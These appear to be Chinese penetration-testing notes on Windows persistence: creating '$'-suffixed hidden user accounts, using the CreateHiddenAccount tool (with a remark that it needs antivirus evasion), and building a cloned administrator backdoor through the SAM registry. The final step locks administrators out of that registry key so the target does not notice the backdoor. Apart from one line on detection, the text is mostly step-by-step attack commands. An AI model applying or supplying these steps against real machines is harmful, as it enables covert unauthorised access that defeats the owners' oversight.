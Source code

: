 分析：使用PCHunter-电脑杂项-系统用户名，可以查看隐藏用户，还可以删除。

## **隐藏账户**
添加隐藏用户或使用工具exe添加
```
net user xiaodi$ xiaodi!@#X123 /add
```
此时cmd看不到此隐藏用户。
```
net user
```
远程登录用户名，也是xiaodi$ 
^
**工具添加：**
<https://github.com/wgpsec/CreateHiddenAccount>
其实这个工具的原理就是在创建用户的时候添加 $ 符号，并且将该用户的用户组设定为空，不过在单域环境中用户组是空，域环境中用户组是administrator组，导致无法删除。
```
工具需要做免杀
添加隐藏用户
CreateHiddenAccount_upx_v0.2.exe -u yaya -p admin@123

查看隐藏用户
CreateHiddenAccount_upx_v0.2.exe -c
```


## **隐藏克隆账户**
Windows普通增加用户，会在net中显示，
如果利用隐藏账户，只会在管理当中显示用户，所以利用注册表和隐藏用户配合使用，这样能够使得目标发现不了存在的后门账户

利用：
```
增加隐藏用户
        net user hacker$ admin123! /add
加入管理员组
        net localgroup administrators hacker$ /add
打开注册表
        HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names
克隆权限
        将需要克隆的用户（如lily），对应键值的F选项的权限信息替换掉 hacker$ 的权限信息
导出注册表
        将权限和用户名两个注册表导出
命令行删除账户
        net user hacker$ /del
打开注册表，重新导入注册表
        选择文件，导入，这样在重新利用刚刚创建的账户就可以登陆克隆的权限的用户
设置管理员不能放问该注册表
        这样能够让自己的后门更加隐蔽，一般发现不了
```


